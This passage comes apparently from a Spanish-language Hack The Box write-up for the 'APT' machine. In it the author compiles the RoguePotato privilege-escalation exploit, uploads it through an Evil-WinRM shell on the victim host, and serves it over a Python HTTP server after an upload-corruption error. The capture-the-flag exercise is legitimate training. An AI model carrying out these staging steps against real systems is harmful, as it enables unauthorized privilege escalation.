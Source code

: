 Tras hacer el rebuild, hay cambio a esa versión y la depuro

<img src="/writeups/assets/img/APT-htb/13.png" alt="">

<img src="/writeups/assets/img/APT-htb/14.png" alt="">

El compilador devuelve la ruta donde se ha almacenado el binario

```null
'RoguePotato.exe' (Win32): 'C:\Users\Usuario\Desktop\RoguePotato\x64\Release\RoguePotato.exe' cargado. El módulo se compiló sin símbolos.
```

Lo transfiero a mi máquina linux y lo subo a la máquina víctima

```null
*Evil-WinRM* PS C:\Temp> upload /home/rubbx/Desktop/HTB/Machines/APT/RoguePotato.exe
Info: Uploading /home/rubbx/Desktop/HTB/Machines/APT/RoguePotato.exe to C:\Temp\RoguePotato.exe

                                                             
Data: 161108 bytes of 161108 bytes copied

Info: Upload successful!
```

Si lo trato de ejecutar me detecta que no es un binario

```null
*Evil-WinRM* PS C:\Temp> .\RoguePotato.exe
Program 'RoguePotato.exe' failed to run: The specified executable is not a valid application for this OS platform.At line:1 char:1
+ .\RoguePotato.exe
+ ~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\RoguePotato.exe
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Esto puede ser porque evil-winrm utiliza un encoder utf-16 en little endian o similar que corrompe los magic numbers del archivo y Windows no lo reconoce. En cambio, si lo transifero por http, no tengo ese problema

Desde mi máquina Windows, monto un servicio http con python

```null
python3 -m http.server 80
```
